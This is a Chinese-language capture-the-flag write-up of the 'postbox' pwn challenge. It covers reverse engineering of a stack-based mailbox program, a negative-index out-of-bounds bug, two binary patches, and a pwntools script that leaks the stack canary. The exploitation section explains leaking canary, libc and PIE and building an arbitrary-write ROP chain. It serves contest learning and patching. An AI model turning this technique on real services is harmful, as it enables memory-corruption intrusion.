









# 黄鹤杯 postbox Writeup

## 1.逆向分析

### 初始化



英语太差了题目提示都没看懂



WARN算是一个提示  
警告：信件会重新出现在已封箱的箱子里  
这里的v21是一个longlong类型的数组前7个被设置成了保护，后面每32字节为一组设置为了box对其修改类型为char box[16][32]并重反编译  
然后是菜单



一个一个函数看吧

### 1.DROP

修改后的DROP

```
{                                           // DROP
    puts("box:");
    if ( __isoc99_scanf("%d", &index_box) == 1 )
    {
      do
        n10_1 = getc(stdin);
      while ( n10_1 != -1 && n10_1 != '\n' );
      if ( index_box > 15 )
        goto LABEL_44;                        // nobox
      puts("len:");
      if ( __isoc99_scanf("%u", &len) == 1 )
      {
        do
          size_in = getc(stdin);
        while ( size_in != -1 && size_in != '\n' );
        if ( len > 0x20 )
        {
          puts("TOO LONG");
        }
        else
        {
          size = len;
          puts("letter:");
          index_box_1 = index_box;
          if ( len )
          {
            start = v21[index_box_1];
            end = &v21[index_box_1][len - 1 + 1];
            while ( 1 )
            {
              buf = 0;
              if ( read(0, &buf, 1u) != 1 )
                break;
              if ( buf != '\n' )
              {
                *start++ = buf;
                if ( start != end )
                  continue;
              }
              puts("DROPPED");
            }
            puts("READ FAULT");
          }  
        }
      }
    }
```

### 2.PICK

```
else
      {                                         // pick
        puts("box:");
        if ( __isoc99_scanf("%d", &in) == 1 )
        {
          do
            idex = getc(stdin);
          while ( idex != -1 && idex != 10 );
          if ( in <= 15 )
          {
            __printf_chk(1, "PICK %d\n", 32);
            sizebox = 32;
            buf_1 = v21[in];
            write(1, buf_1, sizebox);
            write(1, "\n", 1u);
          }
          puts("NO BOX");
        }
      }
```

### 3.repost

```
		{
		  v10 = &v21[0][size - 1];
          if ( size )
          {
            do
            {
              v11 = *v10;
              v12 = v10--;
              v10[513] = v11;
            }
            while ( v12 != v21 );
          }
          puts("REPOSTED");
        }
```

这一段比较难懂要看汇编

```
movzx   ecx, byte ptr [rax]
mov     rdx, rax
sub     rax, 1
mov     [rax+201h], cl
```

rax就是v10  
也就是把v10[0]的数据写入下v10+0x200  
也就是v10+32\*16  
也就是box[17]

### 4.BOARD

```
{
          n15_3 = size;
          __printf_chk(1, "BOARD %u\n", size);
          sizebox = n15_3;
          buf_1 = &v22;
          write(1, buf_1, sizebox);
          write(1, "\n", 1u);
        }
```

## 文件分析



保护全齐



只能打orw  
这里对最后两个保护解释一下

### SHSTK

shadow stack  
影子栈**只存返回地址**，8 字节一项，不存参数和局部变量  
每个函数返回时会把影子栈的栈顶和实际返回地址检查如果不相等就报错  
自glibc2.39版本以后开始支持，本题glibc版本为2.31所以实际未生效

### IBT（Indirect Branch Tracking）

| 指令 | IBT | 说明 |
| --- | --- | --- |
| `call rax` / `call [mem]` | **检查** | 目标必须以 `endbr64` 开头 |
| `jmp rax` / `jmp [mem]` | **检查** | 同上 |
| `jmp rsp`（栈迁移） | **拦** | `rsp` 指向的不是 `endbr64`，直接 `#CP` |
| `call rel32` / `jmp rel32`（直接） | 不检查 | 编译期已定目标 |
| `je` / `jne` / `jg` / …（条件跳转） | 不检查 | 目标为相对偏移 |
| `ret` | **完全不检查** | 属于 SHSTK 的检查范围 |
| `syscall` / `sysret` / 中断门 | 不检查 | 系统调用与门描述符路径 |
| `notrack jmp rax`（`3E` 前缀） | **显式跳过检查** | 按指令关闭 IBT 校验 |

## 漏洞分析

一开始比赛结束后以为是scanf的参数问题后来发现并不是scanf的%d和%u都能接受负数  
所以关键是要对DROP和PICK的参数进行检验不能为负数

### 修复方法

个比赛的时候是发现了可以接受负数但当时没有想到即使是负数能怎么被利用就没改  
下面提供  
两种办法  
第一种  
在ehframe段重写判断逻辑



第二种  
将cmp dword ptr  [rsp+1Ch], 0Fh  
后的跳转改成ja

### 漏洞利用

box是栈上参数存在负数溢出  
可以读出canary和mian的返回地址





我的参数在rbp  
cannary位置在rbp+258，main返回在rbp+298  
0x258在box[18]中  
这里还要看一下取值的逻辑

```
.text:0000000000001531                 mov     esi, [rsp+2C8h+in]
.text:0000000000001535                 mov     edx, 20h ; ' '  ; n
.text:000000000000153A                 shl     esi, 5
.text:000000000000153D                 movsxd  rsi, esi
.text:0000000000001540                 add     rsi, rbp        ; buf
```

[rsp+2C8h+in]这个是我们的输入  
shl     esi, 5会只整体左移5位然后取低32位  
eax = (eax × 32) mod 2³²  
box[18]也就是要让最后的rsi为0x240  
也就是0010 0100 0000  
后右移5个并补1得到  
1111 1000 0000 0000 0000 0000 0001 0010  
也就是十进制中的-134217710  
也许是机组忘光了这里想了好久  
写个转换函数

```
def enc(i, s=5):
    return i if i <= 15 else i - (1 << (32 - s))
```



可以发现第24到32是canary  
同理可以泄露libc和pie  
同理可以用drop实现任意地址写  
只要逐块写入rop链就可以了

## 附录 A｜复现文件清单

题目附件与 exp、patch 版本一并打包，可直接解压复现。

| 文件 | 说明 |
| --- | --- |
| postbox | 题目附件（ELF x86-64，运行库 glibc 2.31） |
| libc.so.6 / ld-2.31.so | 题目自带运行库与加载器 |
| test.py | pwntools 交互封装（drop / pick / repost / board / close） |
| patch/postbox_japatch | 修复版：把 cmp 后的 jg 改成 ja，拦截负数下标 |
| patch/postbox_ehpatch.bak | 修复版：在 .eh_frame 中重写判断逻辑 |
| *.i64 | IDA 数据库（原始程序与各 patch 版本） |
| postbox-wp.zip | 以上全部文件的压缩包，可作为文档附件上传 |

## 附录 B｜test.py

```
from pwn import *
context.arch = 'amd64'
context.log_level = 'debug'
p = process('./postbox')
##交互函数
def menu():
    p.recvuntil(b'> \n')

def drop(box, data=b''):
    
    p.send(b'DROP\n')
    p.recvuntil(b'box:\n');   p.send(str(box).encode() + b'\n')
    p.recvuntil(b'len:\n');   p.send(str(len(data)).encode() + b'\n')
    p.recvuntil(b'letter:\n')
    if data:
        p.send(data)
    p.recvuntil(b'DROPPED\n')
    menu()

def pick(box):
    """返回 32 字节"""
    p.send(b'PICK\n')
    p.recvuntil(b'box:\n');   p.send(str(box).encode() + b'\n')
    p.recvuntil(b'PICK 32\n')
    d = p.recvn(0x20)
    p.recvuntil(b'\n')
    menu()
    return d

def repost():
    p.send(b'REPOST\n')
    p.recvuntil(b'REPOSTED\n')
    menu()

def board(last_len):
    p.send(b'BOARD\n')
    p.recvuntil(b'BOARD ')
    p.recvn(len(str(last_len)))
    d = p.recvn(last_len) if last_len else b''
    menu()
    return d

def close(timeout=3):
    p.send(b'CLOSE\n')
    p.recvuntil(b'COUNTER CLOSED\n')
    return p.recvall(timeout=timeout)

def box(i):
    return i if i <= 15 else i - (1 << 27)

menu()
pick(box(18))
#db.attach(p)
p.recvall(timeout=1)  
```

原始 md 中的 9 张截图已按出现顺序整理为 images/fig01.png ~ fig09.png，随文档一起上传即可正常显示。
